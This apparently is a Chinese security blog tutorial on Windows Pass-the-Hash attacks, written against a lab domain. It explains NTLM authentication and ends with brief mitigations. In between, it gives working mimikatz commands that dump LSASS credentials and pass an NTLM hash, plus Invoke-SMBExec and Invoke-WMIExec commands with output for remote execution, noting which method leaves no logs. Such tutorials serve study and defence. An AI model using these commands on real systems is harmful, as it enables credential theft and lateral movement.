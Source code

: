 ```yaml
---
title: "Windows Pass-the-Hash 攻击"
date: 2020-05-07T22:33:22+08:00
categories: [Security]
tags: [Domain]
draft: false
---
```


## NTLM哈希及NTLM认证

NTLM哈希根据用户明文密码生成，其生成算法此处不表，而仅描述其应用。

在Windows中认证登录时，系统将计算明文密码的NTLM哈希，与预先保存的哈希做比较，相同则登录成功。登录之后Windows将NTLM哈希缓存在系统中（lsass进程），NTLM哈希在系统中将作为用户后续的凭据，在进行NTLM认证时使用。

![域环境中NTLM认证过程](1536303404744.png)

域环境中NTLM认证的流程如上图所示，主要为五个步骤：

- 客户端向服务器发送访问请求
- 服务器生成一个随机数nonce，发送给客户端
- 客户端使用NTLM哈希对nonce进行加密（即Net-NTLM哈希），发送给server
- server收到客户端加密的nonce后，将其连同客户端信息和nonce发送给DC
- DC根据客户端信息使用对应的NTLM哈希对nonce加密，比较相同则认证成功，返回结果给server

NTLM认证有v1和v2两个版本，主要为nonce长度和加密算法强度的区别：

|            | Nonce长度 | 加密算法 |
| ---------- | --------- | -------- |
| NTLM认证v1 | 8 bytes   | DES      |
| NTLM认证v2 | 16 bytes  | HMAC-MD5 |

从NTLM认证的过程可以看到，对于客户端认证来说，只需要对应用户的NTLM哈希则可以代表该用户完成认证流程，这也是pass the hash攻击的原理。

## 获取NTLM哈希

在获取本地机器管理员或system权限后，可以使用`mimikatz`来获取内存（LSASS进程）中缓存的凭据，凭据不仅包括NTLM哈希，根据不同的环境，还可能会存在缓存的明文密码。

```shell
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords
......
```

获取`debug` privilege后，输入`sekurlsa::logonpasswords`来dump出lsass进程中缓存的凭据，输出的结果根据系统版本和补丁情况有所不同：从 Windows 8.1 和 Windows Server 2012 R2 开始，LM 哈希和明文密码将不在内存中保存，此功能可以通过**kb2871997**补丁被移植到较早版本的 Windows 中。

![利用mimikatz从内存中获取凭据](image-20200508223931549.png)

上图分别为在win10与win7环境下的执行结果，可以看到在win7且未打补丁的环境下，可以抓取到LM哈希和明文密码。此外，**kb2871997**补丁对于抓取凭据的影响还有，在安装补丁后，当注销用户时系统会删除对应用户在LSASS进程中的凭据，而在该安全更新之前，只要用户在系统中登录并机器未重启的情况下，即使用户注销，凭据会一直在缓存在内存中。

（在安装补丁后，由于wDigest的特殊性，仍然可以通过更改注册表来缓存明文密码，此处不再赘述）

## NTLM哈希利用POC

在得到一个账户的凭据后，可以利用获得的NTLM哈希实施pass the hash攻击，在没有明文密码的情况下，进行横向移动。

仍然使用mimikatz工具来实现一个POC，利用`sekurlsa::pth`命令：

```shell
sekurlsa::pth /user:test1 /domain:pentest.com /ntlm:cbf698d633423db51e1968e572c3aca7
```

![利用mimikatz进行pth](image-20200508225154095.png)

上图所示为利用smb文件共享服务展示的攻击效果，利用`sekurlsa::pth`命令、使用普通域账户`test1@pentest.com`的NTLM哈希，弹出左边的cmd窗口，win-u8916fo3ap4这台机器为开启了文件共享服务、该域账户有权限访问的域内机器；右边的cmd窗口为本地机器管理员账户直接打开，权限为本地机器管理员账户，无权访问域内的SMB服务。

所以通过`test1@pentest.com`账户的NTLM哈希来进行pass the hash攻击，可以直接利用其权限访问smb服务。

## 实战利用

Pass the Hash攻击的利用工具较多，如[ranger](https://github.com/funkandwagnalls/ranger)、[impacket](https://github.com/SecureAuthCorp/impacket)、[Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)等，在metasploit等攻击平台中也有集成此攻击。下面针对两种实战中具体的利用方式进行说明。

### SMBExec

此利用方式要求NTLM哈希对应的用户具有目标机器的管理员权限（具体来说是具有Service Control Manager的写权限），以此控制机器的本地服务。SMBExec的攻击方式与psexec的方式基本一致，利用[MS-SCMR](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/705b624a-13de-43cc-b8a2-99573da3635f)（Service Control Manager Remote Protocol，一个基于SMB的RPC协议）来创建并启动服务来执行命令，执行命令后再删除对应服务。

值得注意的是，如果不是内置administrator账户或域账户，即使是管理员用户仍然会由于UAC机制而导致无权访问。也就是说，在存在UAC的情况下，只有内置的administrator账户或被加入本地管理员组的域账户能够实施此攻击。

利用Invoke-TheHash工具（基于powershell）来执行SMBExec：

```powershell
Invoke-SMBExec -Target 192.168.232.130 -Domain pentest.com -Username test1 -Hash cbf698d633423db51e1968e572c3aca7 -command "echo 1 > C:/users/test1/a"  -verbose
```

由于命令是由服务形式启动，所以进程会以system权限启动。另外此攻击方式会在目标机器上留下明显的日志记录：

![SMBExec留下的Windows日志](image-20200509172950856.png)

### WMIExec

此种利用方式仍然需要内置管理员账户或者具有本地管理权限的域账户。WMI（Windows Management Instrumentation）提供了远程管理计算机的接口，WMIExec利用WMI的`Win32_Process::Create`方法来新建进程执行命令。

WMIExec通过DCOM协议来远程利用WMI，客户端首先连接135端口，随后远程机器会选择一个随机TCP端口监听来传输数据，所以在有目标机器防火墙开启时，会导致无法连接至新的端口而无法完成攻击。

利用Invoke-TheHash工具攻击：

```shell
PS > Invoke-WMIExec -Target 192.168.232.130 -Domain pentest.com -Username test1 -Hash cbf698d633423db51e1968e572c3aca7 -Command "calc.exe"  -verbose
详细信息: Connecting to 192.168.232.130:135
详细信息: WMI reports target hostname as DESKTOP-QEI3TKC
详细信息: [+] pentest.com\test1 accessed WMI on 192.168.232.130
详细信息: [*] Using DESKTOP-QEI3TKC for random port extraction
详细信息: [*] Connecting to 192.168.232.130:49668
详细信息: [*] Attempting command execution
[+] Command executed with process ID 8984 on 192.168.232.130
```

此种方式执行命令是以所指定的用户权限执行的，并且不会再目标机器中留下日志。

## 防御方式

简单谈一下缓解此攻击的方式（并不全面）：

- Microsoft本地管理员密码解决方案（LAPS）：随机化所有域成员本地管理员密码，密码按照较强的密码策略生成，定期修改。这使得用相同凭据横向渗透变得很困难。

- credential guard：win10引入，CG禁止内存读取，凭据存储在CG中，从lsass输入challenge等信息，CG处理并输出结果

---

参考资料：

[剖析Hash传递攻击的本质、缓解方式及部分绕过手段]([http://blog.sycsec.com/2018/10/02/What-is-Pass-the-Hash-and-the-Limitations-of-mitigation-methods/#microsoft%E6%9C%AC%E5%9C%B0%E7%AE%A1%E7%90%86%E5%91%98%E5%AF%86%E7%A0%81%E8%A7%A3%E5%86%B3%E6%96%B9%E6%A1%88laps](http://blog.sycsec.com/2018/10/02/What-is-Pass-the-Hash-and-the-Limitations-of-mitigation-methods/#microsoft本地管理员密码解决方案laps))

[Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persisten Asynchronous-And-Fileless-Backdoor](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)